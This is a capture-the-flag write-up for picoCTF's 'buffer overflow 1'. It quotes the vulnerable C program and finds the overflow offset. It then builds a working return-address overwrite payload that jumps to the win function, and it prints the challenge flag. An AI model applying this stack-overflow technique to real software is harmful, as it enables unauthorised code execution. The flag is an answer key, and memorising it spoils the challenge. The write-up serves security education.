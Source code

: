 # buffer overflow 1
## Question
>Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this [program](files/vuln)? You can find it in `/problems/buffer-overflow-1_1_8a16ff6a1b3cfb2e42c08d9090051a5d` on the shell server. [Source](files/vuln.c).

## Hint
>This time you're actually going to have to control that return address!

>Make sure you consider Big Endian vs Little Endian.

# Solution
Let's see what the code looks like. Below is the `main` function:

```c
int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

It doesn't take any argument but prompts for a string and calls the `vuln` function. This latest stores this string to a buffer with a size of 32 bytes, using `gets`, which is a bad idea. Then, it displays the memory address where it landed.

```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

And the `win` function displays the flag:

```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

At this stage, it is obvious that we have to overflow the buffer to call the `win` function. Let's test the executable.

~~~~
$ ./vuln 
Please enter your string: 
whatever
Okay, time to return... Fingers Crossed... Jumping to 0x80486b3
$ python -c "print 'A'*32" | ./vuln 
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80486b3
$ python -c "print 'A'*44" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x8048600
Segmentation fault (core dumped)
$ python -c "print 'A'*48" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x41414141
Segmentation fault (core dumped)
~~~~

OK, let's get the address of the `win` function:
~~~~
$ readelf -s vuln
[SNIP]
65: 00000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@@GLIBC_
66: 080486d0    93 FUNC    GLOBAL DEFAULT   14 __libc_csu_init
67: 080485cb   100 FUNC    GLOBAL DEFAULT   14 win
68: 00000000     0 FUNC    GLOBAL DEFAULT  UND setvbuf@@GLIBC_2.0
69: 00000000     0 FUNC    GLOBAL DEFAULT  UND fopen@@GLIBC_2.1
70: 0804a044     0 NOTYPE  GLOBAL DEFAULT   26 _end
[SNIP]
~~~~

Now that we know that the `win` function is located at memory address `0x080485cb`, we can write our payload. We can use python for that:
~~~~
$ python
Python 2.7.12 (default, Oct  8 2019, 14:14:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import struct
>>> print repr(struct.pack('<I', 0x080485cb))
'\xcb\x85\x04\x08'
~~~~

Note: the code above returns a bytes object containing the value `0x80485cb` packed as unsigned int (`I`) in little endian (`<`).

OK, now let's exploit:
~~~~
$ python -c "import struct; print 'A'*44 + struct.pack('<I', 0x080485cb)" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy14941911}Segmentation fault (core dumped)
~~~~

# Flag
`picoCTF{addr3ss3s_ar3_3asy14941911}`
